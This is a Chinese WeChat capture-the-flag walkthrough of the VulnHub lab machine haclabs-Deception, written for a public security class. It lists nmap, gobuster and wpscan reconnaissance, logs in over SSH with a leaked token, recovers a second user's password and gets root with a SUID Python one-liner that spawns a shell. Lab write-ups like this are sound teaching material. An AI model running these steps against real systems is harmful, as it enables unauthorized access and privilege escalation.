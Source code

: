 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/WWTGcnRP1IKF7gNPJ6R18w)

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC6nNyjd9QeAUdlJnqcbr4Ys8FkITF5IX4d9ER5WHB4uz0CSWlE3X4LMvu9yaZhib7zPDu1QEJQEveg/640?wx_fmt=gif)

点击上方蓝字  关注我们

  

靶机系列测试 haclabs-Deception

  

1

介绍

最近暗月在每个星期六都有一个网络公开课，主要是技术分享，有需要的朋友关注公众号，今天这篇文章是昨晚做公开课的技术文档，会把一些技术细节分享在这里，这可能与直播有点出入，因为直播问题比较多，因此会更加详细。

2

靶机介绍

  

<table cellspacing="0" data-width="100%"><tbody><tr><th data-brushtype="text" width="181">描述</th><th data-brushtype="text" width="518">详细</th></tr><tr><td>Difficulty</td><td width="193">Easy to Intermediate</td></tr><tr><td>Description</td><td width="193">This a beginner level machine , getting a shell is a little bit harder, just think out of the box to get the shell.privilege escalation is easy once you get the shell.This machine has 3 flags. Each flag is present in the Home directory of particular user. Be ready to test your Linux skills.</td></tr><tr><td>Flag</td><td width="193">3</td></tr></tbody></table>

下载地址：

https://www.vulnhub.com/entry/haclabs-deception,427/

3

靶机测试过程

3.1  信息收集

3.1.1 nmap 扫描

nmap -sC -sV 192.168.0.191 -oA deception-port -Pn

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACQPRujtygx9a6DO0LZE10LNVeDOv9XC9zcQ1yLUFfJmap71NGjicZgVnUSrHH1kCeicrpFW3ok1klQ/640?wx_fmt=png)

2.1  访问主页

访问 ip 是一个 Ubuntu apache 的默认主页 根据扫描软件 发现主页的存在 wordpress 再用扫描工具探测软件下是否存在其他敏感文件。

http://192.168.0.191/

http://192.168.0.191/wordpress

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACQPRujtygx9a6DO0LZE10LicMEibrPxvjCAqH4HPibQWa90JP7wia5XLDOFnJvibt3BVg2KiaOsQTtuIZg/640?wx_fmt=png)

3.3  目录扫描

gobuster dir -u http://192.168.0.191/wordpress -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x "php,html" -t 100

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACQPRujtygx9a6DO0LZE10LQcWZjlVW2obdUa2ib5On0JTnia7JchK316dCsRCxCabN0cOT4J7FmxNQ/640?wx_fmt=png)

/index.php (Status: 301)

/wp-content (Status: 301)

/wp-login.php (Status: 200)

/wp-includes (Status: 301)

/readme.html (Status: 200)

/robots.html (Status: 200)

/wp-trackback.php (Status: 200)

/wp-admin (Status: 301)

/wp-signup.php (Status: 302)

/hint.html (Status: 200)

http://192.168.0.191/wordpress//robots.html

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACQPRujtygx9a6DO0LZE10LtZEt8TWdQ7zEAewfwXeyAdNd6pvfzSwylXWudPqXb2sDh4KcBlulBQ/640?wx_fmt=png)

http://192.168.0.191/wordpress//hint.html

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACQPRujtygx9a6DO0LZE10Ljic9vCsDtvp2s5wMSB2WtZGD2CpydmsAvXc6iaMGRcZkeAOIUTtmEgtQ/640?wx_fmt=png)

Please collect all the API tokens availabe on the home page

请收集主页上所有可用的 API 令牌

3.4  收集 api 令牌

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACQPRujtygx9a6DO0LZE10LdmQO0JAGDKx2uNEFNcNbR4GLWwicCb6AZkLYSp8jXfKLVyCicLjDBddw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACQPRujtygx9a6DO0LZE10LulxK2R6zGOJYOLibBqVfmzIMuic2As14O8OGV1F9esOTnfzrdmtibEgZQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACQPRujtygx9a6DO0LZE10LkVcMzHY8ajicMPCTuq5cdgqvEG6VbQn85MAmff9CicaPsaQ7ic60zMcMQ/640?wx_fmt=png)

token api

5F4DCC3B5AA765D61D8327DEB882CF99

这个解密就是 password 可能这个就是密码。

3.5 收集 wordpress 账号

wpscan --url http://192.168.0.191/wordpress -e u

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACQPRujtygx9a6DO0LZE10LfgyPLED27EtSMcC61o3HEaI74JRicqeMsicvHDGX7bvwKhCqUwJzH1Kw/640?wx_fmt=png)

3.6 ssh 登录

密码 5F4DCC3B5AA765D61D8327DEB882CF99

ssh yash@192.168.0.191

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACQPRujtygx9a6DO0LZE10Lw8H79CYwldYdZTSwZGy384TjrKDKDpXuO5CWhCs3SUwMcxHOYP5TXg/640?wx_fmt=png)

3.7 获取第一个 flag

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACQPRujtygx9a6DO0LZE10Lcp3yNicG6n92h9siaiaicqsFEKibZNoMLbR7URNibw0PL7qmaoWwHBsq2KqA/640?wx_fmt=png)

3.8 获取 haclabs 密码

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACQPRujtygx9a6DO0LZE10LHKIdNn1qlLUOF9S8Zcicial8RTRO8ObG90hWfepv3ygqP4aQU5XcL30g/640?wx_fmt=png)

cat .systemlogs

ssdsdsdsdsdqwertyuiopasdfghjklzxcvbnmqwertyuiopasdfghjklzxcvbnmzxcvbnmasdfghjklqwertyuiop1234567890qazxdswedcfrfgvbhyyhnkiollokmkijnjuyhbhytgvfrdcxdesxzsyuiopasdfghjklzxcvbnmzxcvbnmasdfghjklzaq123456vfr4567890mnbvcde4567890yuiopasdfghjklzxcvbnmzxcvbnmasdfghjklmnbvcxzsaq234567890-098765rewsxcvbnm,lpoiuytresxcbnmkoiuytredcyuiopasdfghjklzxcvbnmzxcvbnmasdfghjk!@#$dfkdfjdkfjdf!@#$fdjferheirdfdfksdjhfsg24356789yuiopasdfghjklzxcvbnmzxcvbnmasdfghjkljdfivnd"haclabs"jsdskdjskdjsldsklfjlkfdgl/dsfgkdhfgkdfgdjfhkagdhkdhgkkdzfkgdhfffgkhsfhgkdfhgkjlsfladjsflslfjlaaakjdflkaejflyuiopasdfghjklzxcvbnmzxcvbnmasdfghjklNDmsfmbwebrm43564576nu4r50q824305485103601856035860020^&*()sdjfsdflsdfaldjfleragkrjgkfdghdfhksjdhgsghkskskfskgkshkshksfhkgkrtho43euvnd,m,mnhjkjhgfdrtfghj,;poiuytgbvftyhjkllksjhgdfrteuyue"A=123456789"fdsgfhndsffjladjksfjlsdfjlfghfieruyiehgkfnjuyhbvcftyu789876543wsxcvbnm,mju76543asxcferfgbnm,klokjhgbvcxsdfklsdfweri34o58uwotueagsdgjlyuiopasdfghjklzxcvbnmzxcvbnmasdfghjklwlarqlewairp3wi4te0596q03496tiquieljkgrelrsjto5euyjgeldfhqowe5uy4seyjelsdglsoh45yeujhskehgesjhgsyuiopasdfghjklzxcvbnmzxcvbnmasdfghjkldsklflssldfjlsdfjsldfjsldfjld"+A[::-1]"fjlsdnvsldvnsujnhgfqwertyuioplkjhgfdsazxcvbnm,mnbvcxzasdfghjkl;poiuytrewqazxsedcvftghnklyuiopasdfghjklzxcvbnmzxcvbnmasdfghjklyuiopasdfghjklzxcvbnmzxcvbnmasdfghjklyuiopasdfghjklzxcvbnmzxcvbnmasdfghjklyuiopasdfghjklzxcvbnmzxcvbnmasdfghjkldjfkdslfjsldfjsldfjlw4o32894829348293489289389

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACQPRujtygx9a6DO0LZE10L5DT2PpC0kgSwDef7AibfOvIFMZoohdnIvXd5RsfXcG1RncUKEVbfLeg/640?wx_fmt=png)

haclabs A=123456789 +A[::-1]

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACQPRujtygx9a6DO0LZE10LJnbTHMSjmVgKicEU3Q0vrYwgR01QP9fDeBUDJQ2dbHKb9lOPP1ibYHqw/640?wx_fmt=png)

密码可能是 haclabs 987654321 haclabs987654321

密码 haclabs987654321

su haclabs

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACQPRujtygx9a6DO0LZE10LPSIQbVSic4jU3hNhpAEVclO5JYMyDXL7DkI7yx6zKLVYsBTc1kXKKvw/640?wx_fmt=png)

3.9 获取第二个 flag

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACQPRujtygx9a6DO0LZE10LsPNEsHXuHHZNcLthehiciaUHKWh6ictu35EGORPfQ3EQJaPYP1LAgzaeg/640?wx_fmt=png)。![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACQPRujtygx9a6DO0LZE10Lr0icMicKc8dRjqVZ5ajyxc1VPu6RUBf5micPsKuib3rrNicNLUUFszozCqQ/640?wx_fmt=png)

3.10 特权提升

3.1.1  sudo 提权

sudo -l

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACQPRujtygx9a6DO0LZE10LLHlfiaEAewjqu4ibNiaDvEPibTbJcL1VpIDxVeJccZqcA7uyNib96VRHKicw/640?wx_fmt=png)

看到输入密码就可以执行任何命令

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACQPRujtygx9a6DO0LZE10LAL7KoT426jP3U6sTlfAmL6c7t0xGnyFMqMsJ5trTFxcT5icGxQDwa9g/640?wx_fmt=png)

3.10.2 suid 提权

find / -type f -perm -u=s 2>/dev/null

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACQPRujtygx9a6DO0LZE10Lwqib14H4LV9u2BJ9N5LNzTChNAQPEnEgLOJvMX6m0DYPesYSCbH3H4Q/640?wx_fmt=png)

/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACQPRujtygx9a6DO0LZE10Lc7qAr7f19jkLd9yv11WbCJkx2JxNOq2harEzJHicsdkReAhsY7d4ickQ/640?wx_fmt=png)

3.11，获取第三个 flag

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACQPRujtygx9a6DO0LZE10LBECSibROV7Rict6Bv3SZ9icPnUMvHZsf4PUuC2Q7DlbwDNGluaSvhiaryQ/640?wx_fmt=png)

4

关注公众号

如果本人你对有用，请点击收藏和分享。你的支持是我们的动力。

关注本公众号 不定期更新干货。

![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ACQPRujtygx9a6DO0LZE10LzlDZwgPbIav3ic5N76uwWe569FFjYIm6a8EBhLBd7qzNsy7MDLfiadicQ/640?wx_fmt=jpeg)